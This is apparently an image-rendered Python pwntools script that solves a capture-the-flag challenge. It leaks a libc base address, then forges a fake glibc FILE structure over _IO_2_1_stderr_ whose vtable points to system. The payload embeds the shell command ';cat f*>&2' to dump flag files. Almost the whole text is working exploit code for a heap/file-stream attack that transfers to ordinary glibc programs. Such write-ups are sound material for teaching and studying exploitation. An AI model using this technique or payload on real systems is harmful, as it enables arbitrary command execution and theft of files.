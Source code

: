 ```py


new_mine(2, 8, None, 0, b"")

cmd(2)
libc_base = int(
    io.recvregex(b"Hash: ([0-9a-f]*)\n", capture=True).group(1).decode(), 16
)
libc_base -= 0x87DDA

assert libc_base & 0xFFF == 0, "libc is not aliged"
io.success(f"got libc base {hex(libc_base)}")
libc.address = libc_base

new_mine(0, 0, 0, 0, b"")
new_mine(1, 0, 0, 0, b"")
cmd(2)
time.sleep(2)

off = 0xB0

payload = p32(0xFBAD0101) + b";cat f*>&2\0"  # fp->_flags & _IO_UNBUFFERED == 0)
payload += b"\x00" * (0x58 - len(payload))
payload += p64(libc.symbols["system"])  # vtable->iowalloc
payload += b"\x00" * (0x88 - len(payload))
payload += p64(libc.symbols["_IO_2_1_stderr_"] - 0x10)  # lock (1)
payload += b"\x00" * (0xA0 - len(payload))
payload += p64(libc.symbols["_IO_2_1_stderr_"] + 0x100 - off)  # _wide_data (1)
payload += b"\x00" * (0xC0 - len(payload))
payload += p32(1)  # fp->_mode != 0
payload += b"\x00" * (0xD8 - len(payload))
payload += p64(libc.symbols["_IO_wfile_jumps"] + 0x18 - 0x58)  # _IO_wfile_jumps + delta
payload += b"\x00" * (0x100 - len(payload))

payload += b"\x00" * (0xE0 - off)
payload += p64(libc.symbols["_IO_2_1_stderr_"] - 0x10)  # (1) _wide_data->vtable

new_mine(0, 2, libc.symbols["_IO_2_1_stderr_"], len(payload) + 0x10, payload, wait=True)

for _ in range(0x20000):
    cmd(2, wait=False)

log.info("waiting for timeout")
time.sleep(70)

got = io.recvall()

with open("./out.txt", "wb") as f:
    f.write(got)

log.info("wrote to ./out.txt")
log.success("check output file to get the flag")
```
